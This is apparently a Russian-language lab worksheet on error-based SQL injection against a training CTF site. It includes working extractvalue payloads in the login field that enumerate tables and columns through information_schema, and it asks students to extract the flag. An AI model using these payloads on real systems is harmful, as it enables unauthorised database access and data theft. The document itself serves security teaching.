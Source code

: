 # Уязвимости 4 практика часть 1

**Сайт:** [http://errsql.myctf.ru](http://errsql.myctf.ru)

**Requirements:** Firefox + hackbar plugin

Данный сайт является примером эксплуатации уязвимости типа error-based.

Уязвимый код:

![image01](images/image01.jpg)

Какой вид sql инъекции можно использовать на этом сайте?

## 1) Пробуем авторизоваться, подставив в любое поле кaвычку (`'`), в результате чего получаем ошибку

## 2) Получаем список таблиц в текущей базе

```shellsession
login=admin' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1))) -- 123
```

- Какой результат вы получили?
- Какой запрос вы предположительно получили?
- Разберите построчно, что именно вы сделали?

## 3) Получаем названия столбцов в найденной таблице

```shellsession
login=admin' and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='XXXXX' limit 0,1))) -- 123
```

- Какой результат вы получили?

## 4) Достаем флаг

Самостоятельно введите команду, которая выведет все значения из полученных в пунктах 2,3 базы данных и таблицы.

Какой флаг вы получили? ___________________